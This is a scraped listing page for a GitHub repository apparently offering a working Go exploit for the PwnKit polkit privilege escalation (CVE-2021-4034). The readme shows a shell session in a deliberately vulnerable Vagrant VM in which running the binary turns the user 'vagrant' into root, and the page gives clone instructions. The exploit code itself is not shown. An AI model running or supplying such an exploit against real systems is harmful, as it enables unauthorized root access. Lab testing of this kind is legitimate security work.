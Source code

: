 # pwnkit-go

Exploit for the PwnKit vulnerability, CVE-2021-4034, written in Go

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jpmcb](https://github.com/jpmcb) |
| Url      | [https://github.com/jpmcb/pwnkit-go](https://github.com/jpmcb/pwnkit-go)                                               |
| Stars    | 5                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cybersecurity* infosec* security

</details>

## Readme

### Pwnkit-go

This is a working exploit for the pwnkit vulnerability, CVE-2021-4034, written in Go

Give it a try:

```sh
# create a vulnerable vagrant machine
$ make vm
...

# build the binary and scp it to the vagrant box
$ make scp

# ssh onto the vagrant box
$ make ssh

# The default user is "vagrant"
vagrant@ubuntu-focal:~$ whoami
vagrant

# execute exploit
vagrant@ubuntu-focal:/tmp$ cd /tmp && ./pwnkit-go
$ whoami
root
```



## Get the content

```
git clone https://github.com/jpmcb/pwnkit-go
cd pwnkit-go
```

{% embed url="https://github.com/jpmcb/pwnkit-go" %}

<figure><img src="https://avatars.githubusercontent.com/u/23109390?v=4" alt=""><figcaption><p>jpmcb</p></figcaption></figure>
